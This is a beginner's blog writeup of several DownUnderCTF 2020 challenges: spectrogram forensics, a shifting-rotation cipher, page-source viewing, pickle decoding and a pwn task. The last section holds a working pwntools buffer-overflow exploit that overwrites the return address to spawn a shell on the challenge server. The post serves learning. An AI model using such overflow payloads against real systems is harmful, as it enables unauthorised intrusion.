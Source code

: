 ```yaml
---
title: DownUnderCTF2020 writeups
date: 2020-09-20 00:00:00 Z
layout: post
---
```

This is my first CTF event. I did not do well and I only solved a few. The following is my writeup for the ones I did solve. 
### forensics - On the spectrum:
A .wav music file is given. As the name suggested, it is about the spectrum of the music. I had no idea what does it means and did some search online. I found this youtube video was helpful: https://www.youtube.com/watch?v=LrwtGliuvIk
I used a tool called Sonic Visualiser, using the following spectrogram settings:

![]({{ site.url }}/assets/DUCTF_spec1.png)

The flag is shown below:

![]({{ site.url }}/assets/DUCTF_spec2.png)

### crypto - rot-i:
This one gives us an encrypted message:

```
Ypw'zj zwufpp hwu txadjkcq dtbtyu kqkwxrbvu! Mbz cjzg kv IAJBO{ndldie_al_aqk_jjrnsxee}. Xzi utj gnn olkd qgq ftk ykaqe uei mbz ocrt qi ynlu, etrm mff'n wij bf wlny mjcj :).
```
The question is named `rot-i` so chances are this is a substitution cipher. However, it is not a simple one. We know that `IAJBO` stands for `DUCTF`. After calculating the alphabet places differences, we find a pattern, `I` is 5 spaces after `D`, `U` is 6 spaces after `A` (wrapped around) etc.. Then a simple python script could do:

```python
letters = 'abcdefghijklmnopqrstuvwxyz'
encrypted = 'IAJBO{ndldie_al_aqk_jjrnsxee}'
i = 5
letters_list = [x for x in letters]
for j in range(len(encrypted)):
	en = encrypted[j]
	if en.lower() in letters_list:
		index = letters_list.index(en.lower()) - i - j
		print(letters_list[index % 26],end="")
	else:
		print(en,end="")
```
### web - Leggos
It’s a page with an image of a bottle of Leggos sauce. Although the web-page disabled right-click to prevent we see the source code. Burp Suite can be used to see the source code.

![]({{ site.url }}/assets/DUCTF_leggos1.png)

### misc - In a pickle
A file named data is given. From the description, the chances of this is in a pickle format is high. I used the following code to extract the information:

```python
import pandas as pd

p_dict = pd.read_pickle('data')
print(p_dict)
```
Run it and the following is returned:

![]({{ site.url }}/assets/DUCTF_pickle.png)

It is indeed in pickle format and it contains a flag. Now the question is what’s the content? It all contains numbers and these numbers are in the range of unicode for English characters. 

```python
result = ''
for key,value in p_dict.items():
	if key < 4 or key == 23: 
		result += value
		continue
	elif key == 24:
		continue
	else:
		result += chr(value)
print(result)
```
This code gives me the flag. 
### pwn - Shell this!
A simple buffer overflow problem. We overflow the buffer and overwrite the return address using the win function address.

```python
from pwn import *
context(arch='amd64', os='linux')

PROGNAME = "./shellthis"
REMOTEIP = "chal.duc.tf"
REMOTEPORT = 30002

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

win_addr = elf.symbols["get_shell"]
payload = b''
payload += b'A' * 56
payload += p64(win_addr)
p.sendline(payload)
p.interactive()
```
